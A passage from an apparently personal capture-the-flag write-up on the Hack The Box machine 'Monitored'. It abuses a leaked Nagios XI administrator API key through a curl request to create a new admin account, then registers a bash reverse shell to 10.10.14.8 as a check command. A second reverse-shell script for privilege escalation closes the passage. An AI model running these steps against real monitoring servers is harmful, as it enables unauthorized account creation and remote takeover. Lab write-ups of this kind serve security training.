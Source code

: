 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907141256.png)

and we got administrator apikey

and now we can add new admin user acording to this post:
https://support.nagios.com/forum/viewtopic.php?f=6&t=40502

```
curl -XPOST "http://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=testoviron&password=test&name=test%20test&email=test@test.test&auth_level=admin"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907142128.png)

and now we can login with testoviron test as admin user

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907142224.png)

as we are admin lets add reverse shell by clicking on /Configure/Core Config Manager

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907142335.png)

now Click /Commands/ add new command

```
bash -c 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907142544.png)

Click Apply Configuration

now again /Configure/Core Config Manager and Services/ add new

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907142712.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907142814.png)

select check command and click run check command (set listener before)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907142857.png)

## Privilege Escalation

Bunch of runs as sudo -l 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907143014.png)

Dunno how to do it just read 0xdf writeup 
https://0xdf.gitlab.io/2024/05/11/htb-monitored.html#shell-as-root
create reverse shell

```
#!/bin/bash  
  
bash -i >& /dev/tcp/10.10.14.8/443 0>&1
```
